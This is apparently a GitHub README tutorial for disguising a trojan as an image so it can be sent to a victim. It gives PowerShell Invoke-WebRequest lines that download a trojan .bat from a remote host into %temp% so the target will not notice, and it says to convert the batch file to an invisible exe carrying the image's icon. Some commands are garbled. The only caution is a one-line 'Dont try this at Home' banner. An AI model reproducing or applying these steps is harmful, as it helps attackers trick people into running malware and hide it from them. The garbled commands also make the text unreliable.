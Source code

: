 <h1 align="center">Welcome to Repositorie of how to add Trojan in backdoor👋</h1>
<p>
<img src="https://img.shields.io/badge/version-0.1-blue.svg?cacheSeconds=2592000" />
</p>

[![Bat-To-Exe](https://raw.githubusercontent.com/AnandKatariya/Kali-Linux-Jupyter-Notebook-Installation/a9eea7518be7dadfdc60ac934d98e59735590209/Image/made-with-kali-linux.svg)](https://www.python.org/)


### 🏠 [Homepage](https://github.com/AnandKatariya?tab=repositories)

<p align =center >
  <img src="https://media.tenor.com/-r6mKisZ_ycAAAAM/tokusatsu-ultraman.gif" height='288' width='512' />
</p>

<h2 align="center"> Dont try this at Home, School,Or any other public place!!! </h2>
<br>

<h1 align="center"> Introduction to Trojan</h1>

<p>
A Trojan Horse Virus is a type of malware that downloads onto a computer disguised as a legitimate program. The delivery method typically sees an attacker use social engineering to hide malicious code within legitimate software to try and gain users' system access with their software.
  <P/>

  <h2> If you don't know how to make trojan you need to see my previous repository in that I have explain fully how to make trojan then after that you need to use this repository to add trojan at backdoor. </h2>

### 🏠 [How to make trojan ](https://github.com/AnandKatariya/Create-Trojan)

## But all apart in this we will learn how to add trojan in backdoor from powershell.

<h2>Go to browser and select the image which you want to send to target.</h2><br>
<h2>Then open powershell and direct the powershell to desktop.</h2><br>

## Direct to desktop 
```sh
cd .\Desktop\
```

Then after this it will be redirected to desktop and after that paste the command but before pasting just edit website.com to ehich image you want to send to target paste that URL.

## Downlode you image
```sh
Invoke  WebRequest 'https://website.com/file.exe' -OutFile file.exe 
trojan.png
```
Paste this into your powershell and you will able to downlode the image you can see it on desktop, But if you need to add trojan into backdoor you need to add som new command to codeline.

<h2> If you have trojan file add it but if you dont have you need to create it, If you dont know to to create it just check my last repo.. and you will learn. After creating the trojan you need to save it as .bat file.  </h2>
<br>
<h3> Now here we will place the trojan file inside the image so we need to add the command in powershell is,</h3>
  
  ## Add trojan in image
```sh
Invoke  WebRequest 'https://website.com/file.exe' -OutFile file.exe 
trojan.png
Invoke  WebRequest 'www.Your_trojan_file.bat' -OutFile Virus.bat
virus.bat
```
<br>
<h3> But this is not the way if you will downlode the virus file on desktop user will know this so we need to go to temp directory. So </h3>

 # To add file in temp
```sh
cd %temp%
Invoke  WebRequest 'https://website.com/file.exe' -OutFile file.exe 
trojan.png
Invoke  WebRequest 'www.Your_trojan_file.bat' -OutFile Virus.bat
virus.bat
```

after this you need to save this and and you need to save this in all file not in text document and after that save as extension as matrix-trojan.bat
you need to save it as .bat it is mandatory. But you will see that file not looking properly it looking like any suspious file so we need to modify it. So we all need to do is 

## Downlode bat to exe converter

[![Bat-To-Exe](https://raw.githubusercontent.com/AnandKatariya/Backdoor-Trojan/16545e42c093f37c828f551632a0067c4cdfce69/logo/bat-to-exe-file.svg)](https://github.com/AnandKatariya/Backdoor-Trojan/blob/main/Bat_To_Exe_Converter_x64.exe)


<h2> After install open the file or drag and drop it in the Bat to Exe converter and run the file then select the icon as the thumnail of the same image but before select the icon go to png to ico converter online and convert the image in ico file and then add it as logo and change the exe format into invisible after this you will convert it and thats it your are done.</h2>

## Author

👤 **Anand Katariya**

* Github: [@AnandKatariya](https://github.com/AnandKatariya)

## 🤝 Contributing

Contributions, issues and feature requests are welcome!<br />Feel free to check [issues page](https://github.com/AnandKatariya/Backdoor-Trojan/issues).

